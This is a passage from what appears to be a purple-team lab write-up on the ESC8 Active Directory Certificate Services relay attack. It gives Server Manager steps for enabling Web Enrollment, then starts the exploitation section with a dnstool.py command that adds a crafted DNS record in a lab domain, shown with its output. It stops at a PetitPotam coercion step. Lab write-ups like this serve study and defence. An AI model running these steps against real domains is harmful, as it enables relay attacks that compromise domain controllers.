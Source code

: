 
We then need to do the following : 
- After installation, open **Server Manager** again
- Go to **AD CS in** the left pane
- Click **More** in the yellow bar if prompted
- Click **Configure AD CS**
- Select your credentials
- Only check the box for: ✅ Certification Authority Web Enrollment
- Complete the wizard
![ESC8-Web-Enrollment-Service-Configuration.jpg](ESC8/ESC8-Web-Enrollment-Service-Configuration.jpg)

## 9.2 Exploitation

```NB : As my AD CS role was added to my only Domain Controller, I couldn't force the DC to authenticate to my server and relay it to itself. This is due to a security feature added by Microsoft to prevent self relay.```

However, we can still abuse such configuration using Kerberos. The article [Sysadmins in Shambles](https://blog.async.sg/sysadmins-in-shambles) explain it well.

1. Add a DNS Record
```
┌──(kali㉿kali)-[~/Desktop/CVE-2025-33073]
└─$ python dnstool.py -u 'PURPLETEAM.LOCAL\attacker' -p '1attacker*' -dc-ip 172.16.0.1 -dns-ip 172.16.0.1 -a add -r dc011UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 172.16.0.100  172.16.0.1
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```

2. PetitPotam coercion
```